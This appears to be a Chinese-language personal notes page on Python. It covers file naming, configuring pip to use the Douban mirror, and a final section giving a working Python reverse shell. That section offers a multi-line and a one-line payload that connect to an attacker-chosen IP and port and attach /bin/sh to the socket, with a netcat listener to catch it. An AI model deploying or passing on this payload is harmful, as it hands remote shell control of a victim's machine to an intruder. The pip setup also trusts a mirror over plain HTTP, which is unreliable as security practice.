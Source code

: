 # 写在前面

嗯哼，Python很好玩呢...有人说Python是能运行的伪代码，就写代码的速度而言是显著优于C的，也有很多好用的类库呢，反正强烈推荐这门语言啦~

当你尝试一个包的时候，注意自己的py文件名称不能与包名重名，例如不要出现flask.py


----

## 设置pip源

如果只需要一次性安装个包（如Dockerfile）： pip install -i https://pypi.doubanio.com/simple/ --trusted-host pypi.doubanio.com

在Linux服务器上安装python的包时，执行这段代码可以将pip源改为国内的豆瓣源，能显著提高包的下载速度

```bash
mkdir -p ~/.pip
echo """
[global]
index-url = http://pypi.doubanio.com/simple/
[install]
trusted-host=pypi.doubanio.com
""">~/.pip/pip.conf
```

至于Windows用户，在用户目录下创建一个pip目录，如：C:\Users\chenyuan\pip，新建文件pip.ini，内容如下：

```
[global]
index-url = http://pypi.doubanio.com/simple/
[install]
trusted-host=pypi.doubanio.com
```

### 反弹shell

首先自己的服务器上用**nc -l 端口**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(( "IP地址" , 端口 ))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

单行版本：

```
IP="x.x.x.x";PORT=6666;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(( IP , PORT ));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```
